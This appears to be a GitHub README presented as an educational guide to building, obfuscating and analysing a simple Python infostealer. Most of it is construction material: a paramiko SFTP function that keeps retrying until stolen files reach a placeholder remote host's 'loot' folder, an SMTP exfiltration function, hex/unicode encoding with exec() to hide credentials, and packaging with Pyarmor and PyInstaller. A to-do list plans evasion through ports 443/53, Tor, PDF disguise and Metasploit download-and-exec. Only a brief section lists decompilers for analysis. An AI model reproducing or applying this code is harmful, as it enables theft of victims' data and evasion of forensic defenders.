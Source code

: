 # Python Malware Analysis
A guide on the build process, obfuscation techniques, and analysis of simple python-based infostealer malware.<p>
<b>** Disclaimer ** This tutorial is intended for educational purposes only. It is purely to demonstrate the ease of creation and a few capabilities of infostealer malware at a rudimenary level. I do not condone the malicious use of this material.</b>


<br>

## Prerequisites
- Windows 10
- Python 3.1X
> pip install -U -R requirements.txt

<br>

## Exfiltration Methods

### SFTP exfiltration using [Paramiko](https://www.paramiko.org/installing.html)
The example script shown only uses SFTP via the paramiko library to exfiltrate stolen data (for now at least). Below is a snippet of its usage:

    def sftp_func(filepath):
        success = False
        while success == False:   # this will ensure continuous ssh calls  until the data is sent
            try:
                client = paramiko.SSHClient()
                client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                client.connect({RHOST ip}, {RHOST listening port}, {RHOST ssh username}, {RHOST ssh password}, timeout=3)
                sftp = client.open_sftp()
        
                destination_path = f'/home/{a}/loot/{os.path.basename(filepath)}'
                sftp.put(filepath, destination_path)
                success = True
                
            except paramiko.ssh_exception.NoValidConnectionsError:
                pass
            except OSError:
                pass

<br>

### SMTP

(finish later)

    def smtp_func(filepath):

        inbox_name = 'emailname@domain.com'
        inbox_pword = 'password'

        msg = EmailMessage()
        msg['Subject'] = f"{os.path.basename(filepath)}"
        msg['From'] = inbox_name
        msg['To'] = inbox_name

        # attachment not text
        msg.set_content(attachment)

        try:
            with smtplib.SMTP("smtp.domain.com", 587) as s:
                s.starttls()
                s.login(inbox_name, inbox_pword)
                s.send_message(msg)
        except:
            pass

<br>

### Other Ideas 
#### [PyExfil](https://github.com/ytisf/PyExfil)
#### [Cloakify](https://github.com/TryCatchHCF/Cloakify)

<br>

## Code Obfuscation Techniques
### Encoding variables
In this example script, the arguments passed to the 'client.connect()' function (where client = paramiko.SSHClient()) are not human-readable, but instead obfuscated using layers of encoding. Below is an example of what this looks like:

    # before encoding
    b = "<remote ssh password>"
    a = "<remote ssh username>"
    c = "<server ip>"

    # after encoding
    yoyo = "\u0036\u0032\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0032\u0036\u0035\u0036\u0064\u0036\u0066\u0037\u0034\u0036\u0035\u0032\u0030\u0037\u0033\u0037\u0033\u0036\u0038\u0032\u0030\u0037\u0030\u0036\u0031\u0037\u0033\u0037\u0033\u0037\u0037\u0036\u0066\u0037\u0032\u0036\u0034\u0033\u0065\u0032\u0032\u0030\u0061\u0036\u0031\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0032\u0036\u0035\u0036\u0064\u0036\u0066\u0037\u0034\u0036\u0035\u0032\u0030\u0037\u0033\u0037\u0033\u0036\u0038\u0032\u0030\u0037\u0035\u0037\u0033\u0036\u0035\u0037\u0032\u0036\u0065\u0036\u0031\u0036\u0064\u0036\u0035\u0033\u0065\u0032\u0032\u0030\u0061\u0036\u0033\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0033\u0036\u0035\u0037\u0032\u0037\u0036\u0036\u0035\u0037\u0032\u0032\u0030\u0036\u0039\u0037\u0030\u0033\u0065\u0032\u0032"

    ...
    # usage in SFTP call
    exec(bytes.fromhex(yoyo), globals())   # converts the hexidecimal string to meaningful variables, python understands escape unicode chars (e.g. \u0036)
    client.connect(c, 22, a, b, timeout=4)
    ...

Pasting the original text into [Cyberchef](https://gchq.github.io/CyberChef/) and applying the following operations yields the legible string 'yoyo': 
- To Hex, No delimiter
- Escape Unicode Chars, Padding: 4, Encode all chars

However, it should be noted that this is a very crude technique as encoded characters are immediately recognizable to skilled forensic analysts and can be easily undone with several decoding tools. That said, when used in conjunction with other obfuscation techniques, encoding can slightly delay reverse engineering efforts.

<br>

### Using [Pyarmor](https://pypi.org/project/pyarmor/)
To apply basic code obfuscation:
> pyarmor gen example.py

<br>

## Using [Pyinstaller](https://pyinstaller.org/en/stable/usage.html)
### Initial building:
> cd dist
> pyinstaller example.py

<br>

### Editing the .spec file
...


<br>

## Malware Analysis

**[PyInstaller Extractor](https://github.com/extremecoders-re/pyinstxtractor)** - A Python script to extract the contents of a PyInstaller generated Windows executable file. The contents of the pyz file (usually pyc files) present inside the executable are also extracted and automatically fixed so that a Python bytecode decompiler will recognize it.

**[uncompyle6](https://github.com/rocky/python-uncompyle6/)** - A cross-version Python bytecode decompiler. Translates Python bytecode back into equivalent Python source code.

<br>

## To-do List
- change ssh port to 443 or 53
- Metasploit download+exec module
- .py to .pdf
- smtp exfiltration
- ssh key integration
- encrypted ssh password from http server
- ssh over tor socket
